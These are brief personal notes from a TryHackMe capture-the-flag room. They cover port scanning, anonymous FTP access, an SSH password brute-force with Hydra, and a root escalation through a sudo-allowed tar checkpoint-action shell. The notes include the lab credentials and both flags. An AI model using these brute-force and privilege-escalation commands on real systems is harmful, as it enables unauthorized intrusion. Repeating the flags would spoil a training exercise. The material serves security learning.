 https://tryhackme.com/room/cowboyhacker	

- run nmap on open ports `nmap -sC -sV <IP>`
	- 21: ftp
		- → ftp-anon
		- vsFTPd 3.0.3
	- 22: ssh
		- OpenSSH 7.2p2 
	- 80: http
		- Apache httpd 2.4.18

- go though webapp:
	-  conversation → possible usernames
		- spike, jet, ed/edward, ein, faye

- ftp:
	- log in as **anonymous** `ftp <IP>`
	- get:
		- locks.txt → list of potentional passwords
		- task.txt → new username ~ lin

- bruteforce ssh w/ hydra
	- `hydra -t 4 -L <list_of_usenames> -P <list_of_passwords> -vV <IP> ssh`
	- → lin:RedDr4gonSynd1cat3 

- ssh with creds from above
	- → get the user.txt flag → THM{CR1M3_SyNd1C4T3} 

- root the machine
	- `sudo -l` → possibility to run /bin/tar
	- → GTRFo bins → ```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
	- get root.txt → THM{80UN7Y_h4cK3r}  